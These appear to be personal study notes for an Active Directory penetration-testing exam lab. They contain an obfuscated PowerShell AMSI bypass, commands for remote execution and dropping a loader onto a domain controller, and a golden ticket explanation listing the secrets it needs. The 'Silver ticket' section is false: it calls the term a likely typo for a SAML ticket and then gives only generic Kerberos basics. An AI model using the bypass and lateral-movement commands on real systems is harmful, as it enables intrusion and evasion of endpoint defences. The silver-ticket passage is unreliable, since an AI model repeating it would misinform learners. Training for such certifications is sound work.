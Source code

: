 **Exam tips** 
1. The report must contain detailed walk-through of your approach to compromise a box with screenshots, tools used and their outputs. Need to explain what a particular command does.
2. No tools will be available on the exam VM. You can upload Tools using the web access or RDP

**Check what command does with example**
	help invoke-serviceabuse -examples
	
**AMSI bypass**
```
S`eT-It`em ( 'V'+'aR' +  'IA' + (("{1}{0}"-f'1','blE:')+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a'))  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

RUN CMD as
```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
```

check process is running as who
```
winrs -r:dcorp-dc cmd /c set username
```

Things To Note Down
 - aes256_hmac is Mostly used for OverPass-The-Hash attack
 - NTLM Hash is called rc4_hmac_nt
- Run tasklist /svc to view processes

To directly have commands execution on the machine 
```
winrs -r:dcorp-dc cmd
```
To run command from your machine on a target 
```
echo F | xcopy C:\AD\Tools\Loader.exe \\dcorp-dc\C$\Users\Public\Loader.exe /Y
``````

whoami /user

---

==**golden ticket**==
A Golden Ticket attack works by an attacker obtaining the secret key from a Kerberos Key Distribution Center (KDC) or the password hash of a privileged account, typically an administrator. With this key, the attacker forges a Kerberos ticket that grants them access to any account on the network. This forged ticket mimics legitimate authentication, allowing the attacker to log in as any user, including those with high-level privileges. By leveraging this access, they can navigate the network freely, steal sensitive information, or execute malicious activities without being detected.

A Golden Ticket attack is like making a fake VIP pass to get into any club. Here’s how it works:

1. **Stealing the Key**: The attacker gets hold of a special key (like a master key) that opens all the doors in the network.
    
2. **Creating the Fake Pass**: Using that key, they create a fake VIP pass (the Golden Ticket) that looks real.
    
3. **Getting In**: With the fake pass, the attacker can walk into any room (or access any account) without anyone questioning them.
    
4. **Doing Bad Stuff**: Now they can steal stuff, mess with systems, or do whatever they want, all while pretending to be someone important.
    

In short, it’s a sneaky way to bypass security and gain unlimited access to a network!
things req
```
Domain
domain SID (any user sid exclude last 4 digits)
KRBTGT password hash
```
---

==Silver ticket==
In the context of Kerberos, a "Siler ticket" is likely a typo or confusion with "SAML ticket" or just a general reference to "tickets" used in Kerberos authentication.

In simple terms, Kerberos is a network authentication protocol that uses "tickets" to allow users to access services securely without needing to repeatedly enter passwords. Here’s how it works:

1. **User Login:** A user logs into the system and requests access to services.
2. **Authentication Server (AS):** The user’s credentials are sent to an authentication server, which verifies them.
3. **Ticket Granting Ticket (TGT):** If the credentials are correct, the server issues a Ticket Granting Ticket (TGT). This ticket is encrypted and can be used to request other service tickets.
4. **Service Ticket:** When the user wants to access a specific service, they use the TGT to request a service ticket from the Ticket Granting Service (TGS).
5. **Accessing Services:** The user then presents the service ticket to the desired service, allowing access without needing to enter a password again.

Here’s a super simple breakdown of Kerberos tickets:

1. **Log In:** You type in your username and password.
2. **Get a Key:** If your info is correct, you get a special key called a Ticket Granting Ticket (TGT).
3. **Request Access:** When you want to use a service (like a printer or a file), you use the TGT to ask for another ticket for that service.
4. **Get the Service Ticket:** The system gives you a service ticket that says, “This person can use this service.”
5. **Use the Service:** You show this ticket to the service, and it lets you in without needing to type your password again.

---

